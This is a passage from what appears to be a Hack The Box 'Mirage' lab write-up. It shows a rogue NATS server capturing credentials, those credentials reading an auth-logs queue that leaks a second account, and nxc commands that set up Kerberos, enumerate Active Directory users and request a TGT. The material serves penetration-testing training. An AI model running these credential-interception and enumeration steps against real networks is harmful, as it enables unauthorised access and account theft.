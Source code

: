 ```bash
# Launch the rogue NATS server
exegol-htb Mirage : python3 rogue_nats.py
```

### Credential Interception
The rogue NATS server successfully intercepted credentials:
- **Username**: Dev_Account_A  
- **Password**: hx5h7F5554fP@1337!

## NATS Message Queue Exploitation

### Installing NATS Client
```bash
# Install the official NATS CLI
go install github.com/nats-io/natscli/nats@v0.0.33
```

### Accessing the Legitimate NATS Server
Using the intercepted credentials to access the real NATS server:

```bash
# Create a consumer for message reading
exegol-htb Mirage : nats --server nats://10.10.11.78:4222 --user Dev_Account_A --password 'hx5h7F5554fP@1337!' consumer add auth_logs test --pull --ack explicit

# Read messages from the queue
exegol-htb Mirage : nats --server nats://10.10.11.78:4222 --user Dev_Account_A --password 'hx5h7F5554fP@1337!' consumer next auth_logs test --count=10
```

This revealed additional credentials:
- **Username**: david.jjackson
- **Password**: pN8kQmn6b86!1234@

## Active Directory Enumeration and Analysis

### Kerberos Configuration and Authentication
```bash
# Generate Kerberos configuration
nxc smb 10.10.11.78 -u david.jjackson -p 'pN8kQmn6b86!1234@' -k --generate-krb5-file /etc/krb5.conf

# Synchronize time with target
ntpdate 10.10.11.78

# Verify credentials and enumerate users
nxc ldap 10.10.11.78 -u david.jjackson -p 'pN8kQmn6b86!1234@' -k --users

# Generate TGT
nxc smb 10.10.11.78 -u david.jjackson -p 'pN8kQmn6b86!1234@' -k --generate-tgt david.jjackson
export KRB5CCNAME=david.jjackson.ccache
```
